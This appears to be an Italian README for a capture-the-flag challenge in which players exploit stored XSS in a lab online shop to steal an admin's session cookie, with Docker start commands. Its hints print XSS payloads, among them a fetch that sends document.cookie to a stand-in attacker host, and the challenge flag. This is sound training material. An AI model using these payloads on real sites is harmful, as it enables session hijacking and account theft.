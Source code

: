 # Challenge: Stored XSS Exploit - Malicious Product Injection

## Descrizione
In questa challenge, hai accesso a un negozio online che permette di aggiungere nuovi prodotti e cercarli tramite un campo di ricerca.  
Tuttavia, il sistema non filtra correttamente gli input forniti dagli utenti, rendendolo vulnerabile a un attacco **Stored XSS (Cross-Site Scripting)**.  
Sfruttando questa vulnerabilità, potresti iniettare codice JavaScript dannoso che verrà eseguito ogni volta che un amministratore visita la pagina.

Sarà possibile eseguire codice malevolo nel browser dell'admin e ottenere il suo cookie di sessione?

## Obiettivo
- **Sfrutta la vulnerabilità Stored XSS** inserendo uno script malevolo nel nome, descrizione o immagine di un prodotto.
- **Attendi che l'admin visiti la pagina**, eseguendo il codice iniettato.
- **Recupera il cookie dell'admin** che contiene la flag `flag{you_changed_my_website??}`.

## Suggerimenti
- Il form di creazione dei prodotti accetta input arbitrari e li visualizza nella pagina senza sanitizzazione.
- Prova a inserire un payload come `<script>alert('XSS!')</script>` nel nome o nella descrizione di un prodotto.
- Puoi anche provare a rubare il cookie dell'admin inviandolo a un tuo server con `<script>fetch('https://attacker.com/log?cookie='+encodeURIComponent(document.cookie))</script>`.
- Ci sono dei siti come [Beeceptor](https://beeceptor.com/) che ti permettono di creare un server fittizio per ricevere i dati inviati con `fetch`.
- È possibile iniettare codice JavaScript anche nell'URL di un'immagine, ad esempio `<img src=x onerror="alert('XSS!')">`.

## Avviare il server:
```bash
docker pull ghcr.io/ax3lt/xss-ch2
docker run -p 80:80 ghcr.io/ax3lt/xss-ch2
```

Buona fortuna! 🚀🔓
